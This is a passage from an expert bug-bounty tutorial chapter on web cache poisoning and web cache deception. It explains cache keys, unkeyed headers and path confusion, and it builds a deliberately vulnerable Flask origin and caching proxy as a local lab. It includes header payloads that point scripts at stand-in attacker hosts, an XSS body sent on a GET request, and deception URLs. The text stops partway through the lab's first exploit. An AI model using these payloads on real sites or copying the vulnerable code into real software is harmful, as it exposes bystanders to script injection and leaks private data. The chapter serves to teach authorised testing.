





**Level:** Expert · **Track:** Bug Bounty & AppSec · **Read time:** 260 min

This is Chapter 7 of the Server-Side notebook — Notebook 26. The previous chapter closed the
"break an assumption of atomicity" arc with race conditions and TOCTOU. This chapter attacks a
different silent assumption that sits in front of almost every large web application: the belief
that a **cache** only ever stores things that are safe to hand back to anyone, and only ever
serves each user the response that was actually meant for them. Both halves of that belief are
routinely wrong, and each wrong half is its own bug class.

The two classes are mirror images of each other, which is why they belong in one chapter:

- **Web cache poisoning** — you get a *shared* cache to store a response *you* shaped, so that it
  is then replayed to every other visitor. It converts a reflected, "only I can see it" quirk into
  a *stored*, "everyone sees it" exploit. The victim count is however many people hit that cache
  key before the entry expires.
- **Web cache deception** — the opposite direction. You trick a cache into storing *someone else's*
  private, authenticated response under a URL *you* can fetch, then you fetch it and read their
  data. No injection required; it is purely a caching-rules confusion.

Both live in the gap between two machines that disagree about a request — exactly the theme of the
smuggling chapter, except here the two disagreeing machines are a **cache** and an **origin**, and
the thing they disagree about is *what makes two requests "the same"* (poisoning) or *whether a
response is private* (deception). Get comfortable with cache keys and you own both bugs.

Everything here assumes you are testing systems you are authorised to test. Cache poisoning is
uniquely dangerous to *bystanders* — a poisoned entry hits real users, not just you — so this
chapter is strict about non-destructive proof and cache-buster hygiene throughout. Read Part 3 on
safe testing before you touch a production cache.

---

## Part 1: What a Cache Actually Is — Origin, Shared, and Browser

A **cache** is any component that keeps a copy of a previously computed response so that a later,
"equivalent" request can be answered from the copy instead of recomputing it. Caches exist because
recomputing a response — hitting a database, rendering a template, calling three microservices — is
slow and expensive, and the same page is requested millions of times. Storing the finished bytes
once and replaying them is orders of magnitude cheaper.

There are three tiers of cache, and it is essential to be precise about which one a bug lives in,
because only one of them is *shared* between users and therefore interesting for poisoning:

| Cache tier | Where it lives | Shared between users? | Relevance |
|---|---|---|---|
| **Browser cache** | On the victim's own machine | No — private to one browser | Not exploitable for cross-user poisoning; only affects the attacker themselves |
| **Shared / intermediary cache** | CDN, reverse proxy, load balancer, corporate proxy | **Yes** — one copy served to many users | The target for cache **poisoning** |
| **Origin / application cache** | Inside the app server (Varnish, Nginx `proxy_cache`, an in-app fragment cache) | Yes, per-origin | Also poisonable; often the *deception* target |

The shared cache is the crown jewel. When a CDN like Cloudflare, Akamai, Fastly, or an internal
Varnish/Nginx layer stores a response, that single stored copy is handed to **every** subsequent
user whose request maps to the same *cache key* — until the entry expires. If you can make the
stored copy contain your payload, you have a stored, mass-victim exploit for the price of a single
request.



The single most important consequence of that diagram: **the origin computed the response once, from
one request — the attacker's request — and everyone else receives those exact bytes.** If the
attacker's request shaped the response in a dangerous way and the cache stored it, the danger is now
everyone's.

**A note on terminology.** "Reverse proxy", "CDN edge", "intermediary cache", and "shared cache" all
refer to the same architectural position for our purposes: a box that sits between the internet and
the origin, terminates the client connection, and may keep copies of responses. Popular software:
Varnish, Nginx (`proxy_cache`), Apache Traffic Server, Squid, and the commercial CDNs (Cloudflare,
Akamai, Fastly, CloudFront, Azure Front Door). They differ in defaults and quirks — which matters a
lot in exploitation — but the model is identical.

---

## Part 2: The Cache Key — The One Concept That Explains Both Bugs

When a request arrives, a cache must decide: *have I already got a stored response for a request
"like this one"?* To answer that it computes a **cache key** — a compact fingerprint of the request
— and looks it up in its store. If the key is present and fresh, that is a **cache hit** and the
stored bytes are returned without ever touching the origin. If absent or stale, it is a **cache
miss**: the cache forwards to the origin, receives a response, decides whether it is *cacheable*,
stores it under the key if so, and returns it.

The default cache key is usually built from a small handful of request components:

- The HTTP method (`GET`).
- The scheme + host (`https://shop.example`).
- The URL path (`/product`).
- **Some** of the query string (often the whole thing, sometimes a filtered subset).

Everything the cache includes in the key is called a **keyed** input. Everything the cache *ignores*
when building the key — but which the *origin* still reads and reacts to — is called an **unkeyed**
input. That single distinction is the entire theory of cache poisoning:

> **The unkeyed-input principle.** If a request component (a) is *ignored by the cache* when it
> builds the key, but (b) *changes the response* when the origin processes it, then an attacker can
> send a request that produces a malicious response, the cache stores that malicious response, and
> the cache then serves it to every victim whose request has the *same key* — because the victims'
> requests, lacking the attacker's unkeyed value, still hash to the exact same key.

Read that twice. The victim never sends the malicious header. They don't have to. The malicious
header only had to be present *once*, in the attacker's request, long enough to shape the stored
response. After that the cache does the distribution.



The mirror concept for **deception** is not "unkeyed input" but **cacheability confusion**: the
origin produces a *private* response (someone's account page), but because of a URL/path trick the
cache *believes* the response is a public static asset and stores it under a key the attacker can
later request. Same machinery (keys + cacheability decision), opposite exploitation direction.

**Two questions you will ask on every single test**, and everything downstream depends on the
answers:

1. *Is this input keyed or unkeyed?* (Determines whether poisoning is even possible.)
2. *Is this response cacheable, and under what key?* (Determines whether the poison will be stored
   and re-served, or whether you are just seeing your own reflection.)

---

## Part 3: Reading Cache Behaviour From Headers — and Testing Safely

You cannot poison what you cannot observe. Before any payload, you build a picture of the cache from
response headers and timing. The relevant headers:

| Header | Meaning | Why it matters |
|---|---|---|
| `Cache-Control` | Directives: `public`, `private`, `no-store`, `no-cache`, `max-age=N`, `s-maxage=N` | Tells you *whether* and *how long* a response is cacheable |
| `Age` | Seconds the response has been in the cache | `Age: 0` on first hit, rising on repeats → proof it's cached |
| `X-Cache` / `CF-Cache-Status` / `X-Cache-Status` | Vendor hit/miss indicator (`HIT`, `MISS`, `DYNAMIC`) | Direct evidence the CDN cached it |
| `Vary` | Lists request headers the cache *must* add to the key (e.g. `Vary: Accept-Encoding`) | Any header NOT in `Vary` is a candidate unkeyed input |
| `Expires` | Absolute expiry timestamp (legacy) | Older cacheability signal |
| `ETag` / `Last-Modified` | Validators for revalidation | Governs `no-cache` revalidation flow |
| `Set-Cookie` | Response sets a cookie | Well-behaved caches refuse to store responses with `Set-Cookie`; broken ones don't — a poisoning vector |

The workflow to fingerprint a cache:

```bash
# Send the same request twice, watch Age and the vendor status header climb.
curl -s -D - -o /dev/null "https://target.example/home" | grep -Ei 'cache|age|vary|x-cache|cf-cache'
# repeat immediately:
curl -s -D - -o /dev/null "https://target.example/home" | grep -Ei 'cache|age|vary|x-cache|cf-cache'
```

`-s` silences the progress meter, `-D -` dumps response headers to stdout, `-o /dev/null` throws
away the body so you only see headers. If the second call shows `Age: 4` and `X-Cache: HIT` where
the first showed `Age: 0` and `X-Cache: MISS`, the endpoint is cached and you know the vendor's
status header name — record it, you'll read it after every poisoning attempt.

### The cache-buster — your single most important safety tool

**Never test poisoning against the real, shared cache key that normal users hit.** Instead, add a
unique, harmless, *keyed* parameter to your requests — a **cache buster** — so your experiments land
on a *private* key that nobody else will ever request:

```
GET /home?cachebuster=arandomstring1234 HTTP/1.1
```

Because the query string is (usually) keyed, `?cachebuster=arandomstring1234` gives your requests a
key of their own. You can safely poison *that* key all day; real users request `/home` (or
`/home?realparam=...`), never your random string, so they are never served your test poison. When
you have proven the mechanic on your private buster key, you can reason about impact on the real key
*without* actually poisoning it. Rotate the buster value between distinct experiments so a stale
stored entry from test #1 doesn't confuse test #2.



**Rules of engagement for cache poisoning testing** — these are not optional politeness, they are
how you avoid harming real users and staying inside program scope:

- Always test with a unique cache buster on a *private* key; never confirm impact by poisoning the
  live shared key that customers hit.
- Keep payloads non-destructive: prove *reflection into a dangerous sink* with a benign marker (e.g.
  a `//your-collab-domain` reference, an alert-less canary string), not a working exploit served to
  the public.
- If a program forbids automated scanning or specifically caching tests, respect it. Param Miner and
  Turbo Intruder generate a lot of traffic.
- When you must demonstrate that the *real* key is poisonable, describe the exact request and let the
  triage team reproduce on a throwaway key, or coordinate a tightly time-boxed proof — do not leave a
  poisoned production entry sitting for its full TTL.

With observation and safety established, we can start finding unkeyed inputs.

---

## Part 4: Finding Unkeyed Inputs — The Heart of Poisoning

The core hunt is: *which request headers (and params) does the origin read and reflect, that the
cache does NOT put in the key?* The canonical method, popularised by James Kettle's "Practical Web
Cache Poisoning" research, is a two-step test on a single endpoint:

1. **Reflect + key test.** Send a request with a candidate header carrying a unique canary value,
   plus a cache buster. Check two things: (a) does the canary appear in the response body/headers
   (origin reads it)? (b) does adding the header change the cache key (which you detect by whether a
   *second identical request without the header* still gets a HIT of the poisoned response)?
2. **Confirm unkeyed.** Request the same buster URL *without* the header. If you get back the
   response containing your canary — the one that only your headered request could have produced —
   the header is **unkeyed**: the cache served the poisoned copy to a request that never carried the
   header. That is poisoning, proven on a private key.

The headers worth trying first, because origins and frameworks commonly trust them and reflect them
into URLs, links, redirects, or `Host`-derived logic:

| Candidate header | Typical origin behaviour when reflected | Classic impact |
|---|---|---|
| `X-Forwarded-Host` | Used to build absolute URLs / links / password-reset links | Poison to point resources at attacker host → stored XSS / redirect |
| `X-Forwarded-Scheme` / `X-Forwarded-Proto` | Triggers a redirect to `https://<X-Forwarded-Host>/...` | Open redirect served to all users |
| `X-Host`, `X-Forwarded-Server` | Alternate host overrides | Same as XFH on some stacks |
| `X-Original-URL`, `X-Rewrite-URL` | Overrides the routed path | Cache a different page's content under this key |
| `X-Forwarded-For` | Reflected into logs/pages, sometimes into responses | Reflected XSS if echoed unsanitised |
| `User-Agent` | Occasionally reflected; sometimes affects rendered response | Situational |
| `Accept-Language`, `X-Country` | Drives localisation content | Content-swap; sometimes XSS via reflected locale |

The two most reliable primitives, over and over in real programs, are **`X-Forwarded-Host`** (the
origin builds an absolute URL — often for a `<script>`, `<link>`, or Open Graph tag — from a
host it read out of this header) and **`X-Forwarded-Scheme`/`Proto`** (a stack that issues a
redirect to force HTTPS, and builds the redirect target from `X-Forwarded-Host`). Poisoning either
one converts an unauthenticated single request into a stored, all-users effect.

**A subtle point about "does it change the key".** Sometimes a header is *reflected but keyed* — the
origin reflects it, but so does the cache include it in the key. That is not poisonable: victims,
lacking the header, hash to a different key and never see your copy. You must confirm *both* halves —
reflected AND unkeyed — before you have a bug. Step 2 above (re-request without the header, still get
your canary) is precisely the confirmation of the "unkeyed" half, and is the step beginners skip.

---

## Part 5: The Toolkit From Zero — Param Miner and the Manual Workflow

### Burp Suite (foundation, taught briefly here)

Burp Suite is the interception proxy every web tester lives in: it sits between your browser and the
target, lets you view/modify/replay every request, and hosts extensions. If you've reached Notebook
26 you have met it in earlier chapters, so the one-line recap: **Proxy** captures traffic,
**Repeater** replays a single request with edits (the workhorse for cache testing — you'll send the
same request dozens of times watching `Age`/`X-Cache`), and **Intruder**/**Turbo Intruder** automate
many requests. Install on Kali via `sudo apt install burpsuite` or the official JAR; the Community
edition is enough for manual cache work, though Turbo Intruder (an extension) and heavy automation
favour Professional.

### Param Miner — guessing unkeyed inputs at scale

Manually trying twenty headers is fine for a quick look, but the origin might trust an obscure header
you'd never guess (`X-Forwarded-Prefix`, `X-Amz-Cf-Id`, a custom `X-Company-Env`). **Param Miner**
is a Burp extension, written by PortSwigger, whose whole purpose is to brute-force **unkeyed inputs**
— headers, cookies, and query parameters — using a big built-in wordlist, and to tell you which of
them (a) change the response and (b) are not in the cache key. It is the de-facto standard tool for
cache poisoning discovery.

**Install:** Burp → **Extensions** tab → **BApp Store** → search "Param Miner" → **Install**. It adds
right-click context menu items on any request.

**Core workflow:**

1. In Proxy/Repeater, right-click the target request → **Extensions → Param Miner → Guess headers**
   (also "Guess GET/POST parameters", "Guess cookies").
2. Param Miner adds a **cache buster automatically** (it appends a random keyed param) so your
   guessing lands on a private key — it is built for safe cache testing.
3. It sends the wordlist with canary values and diffs responses, watching for reflections and for
   cache-key membership.
4. Results appear under **Dashboard → Issue activity** / the extension's output, flagging headers
   like "Unkeyed header: X-Forwarded-Host" with the evidence.

Two settings worth knowing:

- **"Add fcbz cachebuster"** and **"dynamic cachebuster"** — keep enabled; this is what keeps you off
  the shared key.
- **"Rails-like param names" / "bulk" wordlists** — larger lists find more, at the cost of far more
  traffic. On a live bounty target, start with the default header list, not the everything-list.

### The manual confirmation — always do it by hand after the tool

Tools flag *candidates*; you confirm the bug by hand in Repeater so you understand it and can write a
clean report. The canonical manual sequence (private key throughout):

```http
# Step 1 — poison a private key with a canary in a candidate unkeyed header
GET /en?cb=poison7781 HTTP/1.1
Host: shop.example
X-Forwarded-Host: canary7781.attacker.test

# Look at the response: does canary7781.attacker.test appear in the body,
# e.g. <link rel="canonical" href="//canary7781.attacker.test/en"> ?
# Also read the cache status header — you want to CACHE this response (MISS -> stored).
```

```http
# Step 2 — request the SAME buster key WITHOUT the header
GET /en?cb=poison7781 HTTP/1.1
Host: shop.example
# (no X-Forwarded-Host)

# If the response STILL contains canary7781.attacker.test and shows X-Cache: HIT,
# the header is unkeyed and the response was served from the poisoned store.
# => Confirmed cache poisoning on this key.
```

If step 2 comes back clean (no canary), the header was keyed or the response wasn't cached — not a
bug on this endpoint. Move on.

---

## Part 6: From "Reflected Canary" to Real Impact

Confirming an unkeyed reflection is only half a finding; a triager wants the *impact*. What the
reflected input flows into determines the severity. The common escalation ladders:

### 6.1 Poisoning to stored XSS

If the origin reflects `X-Forwarded-Host` into an HTML sink without encoding — the frequent case is
building a `<script src>` or `<link href>` from it, or an inline OG/`canonical` tag — you don't even
need to break out of an attribute; you point the resource at your host:

```http
GET /?cb=x1 HTTP/1.1
Host: shop.example
X-Forwarded-Host: attacker.test/malicious.js#
```

If the page renders `<script src="//attacker.test/malicious.js#//shop.example/main.js">`, every
cached-served victim loads and executes your JS. If instead the reflection lands in a normal HTML
context and isn't a URL, standard XSS breakout applies (`"><script>...`), the difference from
reflected XSS being that here it becomes **stored** for everyone on that key.

### 6.2 Poisoning to open redirect / HTTPS-redirect hijack

Stacks that force HTTPS often do:

```
if X-Forwarded-Proto == http: redirect 302 to https://<X-Forwarded-Host><path>
```

Send `X-Forwarded-Host: evil.example` with the proto trigger; the cache stores a `302 Location:
https://evil.example/...` and now every user asking for that page is redirected to your site. Great
for phishing / token theft depending on the app.

### 6.3 Poisoning to denial of service ("CPDoS")

You don't always need code execution. **Cache-Poisoned Denial of Service (CPDoS)** poisons the cache
with an *error* or a broken response so legitimate users get failure. Variants (from Nguyen et al.'s
CPDoS research):

- **HTTP Header Oversize (HHO):** send a header larger than the origin accepts but the cache
  forwards; origin returns `400`, cache stores the `400` for everyone.
- **HTTP Meta Character (HMC):** inject a control/meta char that the origin rejects with an error the
  cache caches.
- **HTTP Method Override (HMO):** use `X-HTTP-Method-Override: POST` etc. to make the origin produce
  an error page the cache stores under the `GET` key.

### 6.4 Poisoning internal/secondary sinks

Reflected values sometimes flow into JSON used by client JS, into an import map, into a
`<base href>` (which rewrites *all* relative URLs on the page — extremely powerful), or into a
WebSocket/API endpoint the page later calls. `<base href>` poisoning is a favourite: one poisoned
tag redirects every relative resource fetch to the attacker.



---

## Part 7: Cache-Key Flaws — Delimiters, Normalisation, and "Fat GET"

Not every poisoning comes from an unkeyed *header*. A second, deeper family comes from the cache and
origin **disagreeing about what the key even is** — parsing discrepancies in the URL and parameters.

### 7.1 Cache key normalisation discrepancies

The cache might normalise the URL before keying (lowercasing, decoding `%2F`, stripping a trailing
`/`, collapsing `..`) while the origin normalises differently — or vice versa. If the cache treats
`/Home` and `/home` as the same key but the origin serves different content, or the cache decodes an
encoded character the origin doesn't, you can store content from one URL under the key of another.

### 7.2 Cache-key injection via delimiters

Caches and origins disagree about which characters *delimit* the significant part of the URL/param.
Classic example: some caches truncate the key at a specific character (`;`, `#`, sometimes newline or
`?` handling quirks) that the origin treats as ordinary data. If the cache keys on
`/path` (truncating at `;`) but the origin reads `/path;jsessionid=...&evil=payload`, you can smuggle
an unkeyed payload past the key.

### 7.3 The "fat GET" — a body on a GET request

Some frameworks read parameters from the *request body even on a GET*, while the cache keys only on
method + URL and ignores the body entirely. That makes the **body a giant unkeyed input**:

```http
GET /search?cb=fat1 HTTP/1.1
Host: shop.example
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

q=<script>alert(1)</script>
```

If the app merges body params over query params and reflects `q`, and the cache ignored the body, you
have poisoned the key `/search?cb=fat1` with a body nobody else will send. Victims requesting
`/search?cb=fat1` (or the real key) get your reflected payload.

### 7.4 Parameter cloaking and duplicate keys

If the cache and origin pick *different* values for a duplicated parameter (`?callback=safe&callback=evil`),
or one honours `;` as a parameter separator (`?a=1;callback=evil`) while the other doesn't, the value
the cache keys on differs from the value the origin acts on — again yielding an effectively unkeyed
payload. Param cloaking also lets you exclude a param from the key while keeping it live at the
origin.

| Discrepancy type | Cache thinks key is | Origin acts on | Result |
|---|---|---|---|
| Normalisation (case/encoding) | `/home` | `/Home` (different content) | Wrong content stored under a shared key |
| Delimiter truncation | `/p` (cut at `;`) | `/p;x=evil` | `;x=evil` is unkeyed payload |
| Fat GET | method+URL only | URL + body params | body is unkeyed payload |
| Duplicate param | `callback=safe` | `callback=evil` (last wins) | `evil` is unkeyed |

These are harder to find than header poisoning and reward patient, per-target testing of how the
specific CDN + origin pair parse odd URLs. This is also where the poisoning and *deception* families
start to touch, because deception is fundamentally a normalisation/delimiter discrepancy about
*paths*.

---

## Part 8: Web Cache Deception — The Mirror Image

Now the opposite bug. In **web cache deception (WCD)**, you don't inject anything into a response.
You trick the cache into *storing a victim's private response* under a URL you can fetch, then you
fetch it. First described by Omer Gil in 2017 (the classic PayPal demo), WCD needs three conditions
to line up:

1. The victim visits an attacker-crafted URL that maps, at the origin, to their **private,
   authenticated** content (their account page, API key, session data).
2. The URL is crafted so the **cache believes the response is a public static asset** worth caching
   (typically via a fake static file extension or a path trick).
3. The origin **ignores the extra path/extension** and serves the private content anyway (path
   confusion), and the response lacks `Cache-Control: private/no-store`.

The canonical attack shape:

```
Real private page:   https://bank.example/account
Crafted URL:         https://bank.example/account/nonexistent.css
```

The origin routes `/account/nonexistent.css` to the `/account` handler (it ignores the trailing
`nonexistent.css` — common in frameworks that map by prefix), and returns the victim's account page.
The CDN, seeing a `.css` extension, thinks "static asset, cache it" and stores the victim's account
page under the key `/account/nonexistent.css`. The attacker then simply requests
`https://bank.example/account/nonexistent.css` themselves — no auth needed — and the cache hands them
the victim's stored account page.



The beauty (and horror) is that there's **no injection and no payload** — it's a pure logic/config
confusion between "the origin's idea of routing" and "the cache's idea of what's static". The victim
just has to open one link while logged in.

### The four path-confusion styles

Modern WCD research (notably the "Cached and Confused" academic study, and Kettle's follow-ups)
classifies the origin/cache disagreement into recognisable discrepancy styles:

| Style | Crafted URL | Cache thinks | Origin serves |
|---|---|---|---|
| **Static extension** | `/account/foo.css`, `/account/foo.js` | static `.css`/`.js` → cache | `/account` (ignores suffix) |
| **Static directory** | `/static/..%2faccount`, `/assets/account` | under cached `/static/` prefix | `/account` after traversal/rewrite |
| **Delimiter** | `/account;foo.css`, `/account%00.css`, `/account#.css` | key ends at delimiter → looks static | full path → `/account` |
| **Normalisation** | `/account%2f%2e%2e%2fx.css` | decodes to something cached | resolves back to `/account` |

Each style is a different way of getting the cache and origin to *disagree about where the path ends
and whether it names a cacheable asset*. Which one works is entirely a property of the specific
CDN + framework pairing, so you test all four.

---

## Part 9: Testing for Web Cache Deception Safely

Deception testing has its own safety profile. You are trying to get a *private* response cached, so
the danger is caching **your own** session's private data where someone else could read it — do this
only with test accounts you control, and clean up (purge/expire) after. The method uses **two
accounts you own**: a "victim" account and an "attacker" (unauthenticated or second-account)
fetcher.

The step-by-step, using two of your own accounts:

1. Log in as **victim** (account V) in one browser/session. Identify a page that shows account-unique
   data (email, name, an API token) — call it `/account`.
2. From the victim session, request a crafted URL: `GET /account/wcd-test-8842.css` (unique marker so
   you know exactly which entry you created).
3. Inspect the response *as victim*: did the origin serve the account page anyway (path confusion
   present)? Check the cache status header — was it stored (`MISS` now, and cacheable)?
4. From a **separate, unauthenticated** context (incognito, `curl` with no cookies), request the exact
   same URL: `GET /account/wcd-test-8842.css`.
5. If you receive account V's private data with `X-Cache: HIT`, **web cache deception is confirmed** —
   an unauthenticated request read authenticated content.

```bash
# Step 4 as the attacker (no cookies at all):
curl -s -D - "https://target.example/account/wcd-test-8842.css" | head -40
# Look for: the victim's email/token in the body, AND X-Cache: HIT / Age > 0
```

Safety rules specific to WCD:

- Use **your own test accounts** only. Never trick a real user into caching their data during
  testing; that exposes their private data in the shared cache.
- Use a unique marker in the crafted path (`wcd-test-8842`) so you can identify and, if the program
  allows, request a purge of exactly your test entry afterward.
- The proof is: *unauthenticated request returns account-specific data.* Capture both requests
  (victim-crafted and attacker-fetch) and the cache headers. Do not escalate to a real victim.

Test each path-confusion style in turn — `.css`, `.js`, `;a.css`, `%00.css`, `/static/..%2faccount`
— because origins vary in which suffixes/delimiters they ignore and CDNs vary in which extensions
they force-cache.

---

## Part 10: Hands-On Lab — A Genuinely Poisonable Cache

Enough theory. This lab stands up a tiny origin (Flask) behind a tiny caching reverse proxy (a
minimal Python cache so you can see every internal), reproduces **both** an unkeyed-header poisoning
and a web cache deception, and then patches them. Everything runs locally; no external target is
touched.

### 10.1 Setup

```bash
mkdir cache-lab && cd cache-lab
python3 -m venv venv && source venv/bin/activate
pip install flask requests
```

### 10.2 The vulnerable origin — `origin.py`

The origin does two dangerous things: it builds an absolute URL from `X-Forwarded-Host` (unkeyed
header poisoning), and it routes `/account/<anything>` to the account handler while returning private
data (path confusion for deception).

```python
# origin.py — the vulnerable application (listens on :9000)
from flask import Flask, request, Response

app = Flask(__name__)

# pretend session store: cookie 'sid' -> user data
USERS = {"sess-victim": {"name": "Alice", "email": "alice@corp.example", "api_key": "SECRET-KEY-8842"}}

@app.route("/home")
def home():
    # DANGER: builds a canonical/script URL from an attacker-controllable header
    xfh = request.headers.get("X-Forwarded-Host", request.host)
    body = f"""<!doctype html><html><head>
<link rel="canonical" href="//{xfh}/home">
<script src="//{xfh}/static/app.js"></script>
</head><body><h1>Welcome</h1></body></html>"""
    resp = Response(body, mimetype="text/html")
    resp.headers["Cache-Control"] = "public, max-age=60"   # cacheable
    return resp

# DANGER: matches /account AND /account/<anything>, ignoring the suffix,
# and returns PRIVATE data without marking it private.
@app.route("/account")
@app.route("/account/<path:junk>")
def account(junk=None):
    sid = request.cookies.get("sid", "")
    user = USERS.get(sid)
    if not user:
        return Response("Please log in", status=401)
    body = f"""<!doctype html><html><body>
<h1>Account: {user['name']}</h1>
<p>Email: {user['email']}</p>
<p>API key: {user['api_key']}</p>
</body></html>"""
    resp = Response(body, mimetype="text/html")
    # DANGER: no Cache-Control: private / no-store on authenticated content
    return resp

if __name__ == "__main__":
    app.run(port=9000)
```

### 10.3 The naive caching proxy — `cache.py`

A deliberately simplistic shared cache that reproduces two real-world flaws: it keys **only** on
`(method, path, query)` — ignoring all headers, so `X-Forwarded-Host` is unkeyed — and it decides
cacheability by **file extension**, so anything ending in `.css`/`.js` is cached regardless of
`Cache-Control`.

```python
# cache.py — a minimal shared cache in front of origin (listens on :8080)
import time
from flask import Flask, request, Response
import requests

app = Flask(__name__)
ORIGIN = "http://127.0.0.1:9000"
STORE = {}  # key -> (timestamp, status, headers, body)
STATIC_EXT = (".css", ".js", ".png", ".jpg", ".ico", ".woff")

def cache_key():
    # FLAW 1: header-blind key. X-Forwarded-Host etc. are UNKEYED.
    return (request.method, request.path, request.query_string.decode())

def cacheable(path, upstream_headers):
    # FLAW 2: extension-based cacheability ignores Cache-Control: private.
    if path.endswith(STATIC_EXT):
        return True
    cc = upstream_headers.get("Cache-Control", "")
    return "public" in cc and "no-store" not in cc

@app.route("/", defaults={"p": ""}, methods=["GET"])
@app.route("/<path:p>", methods=["GET"])
def proxy(p):
    key = cache_key()
    now = time.time()
    if key in STORE:
        ts, status, headers, body = STORE[key]
        if now - ts < 60:
            h = dict(headers); h["X-Cache"] = "HIT"; h["Age"] = str(int(now - ts))
            return Response(body, status=status, headers=h)
    # miss -> forward, preserving the client's headers (incl. X-Forwarded-Host, cookies)
    up = requests.get(ORIGIN + request.full_path,
                      headers={k: v for k, v in request.headers if k.lower() != "host"},
                      cookies=request.cookies)
    headers = {"Content-Type": up.headers.get("Content-Type", "text/html"),
               "Cache-Control": up.headers.get("Cache-Control", "")}
    if cacheable("/" + p, up.headers):
        STORE[key] = (now, up.status_code, headers, up.content)
    h = dict(headers); h["X-Cache"] = "MISS"; h["Age"] = "0"
    return Response(up.content, status=up.status_code, headers=h)

if __name__ == "__main__":
    app.run(port=8080)
```

Run both in two terminals:

```bash
python origin.py     # terminal 1 -> :9000
python cache.py      # terminal 2 -> :8080
```

### 10.4 Exploit 1 — unkeyed-header poisoning to script hijack

Poison a private buster key with `X-Forwarded-Host`, then prove a header-less request gets it back:

```bash
# 1) Poison: attacker sends the evil header on a private buster key
curl -s -D - "http://127.0.0.1:8080/home?cb=poison1" \
     -H "X-Forwarded-Host: evil.attacker.test" | tee /tmp/poison.out | grep -Ei 'x-cache|age'
grep -o '//[a-z.]*/static/app.js' /tmp/poison.out
```

Expected (annotated):

```
X-Cache: MISS          <- first request, stored
Age: 0
//evil.attacker.test/static/app.js   <- origin reflected our header into <script src>
```

```bash
# 2) Prove it's unkeyed: request the SAME key WITHOUT the header
curl -s -D - "http://127.0.0.1:8080/home?cb=poison1" | tee /tmp/victim.out | grep -Ei 'x-cache|age'
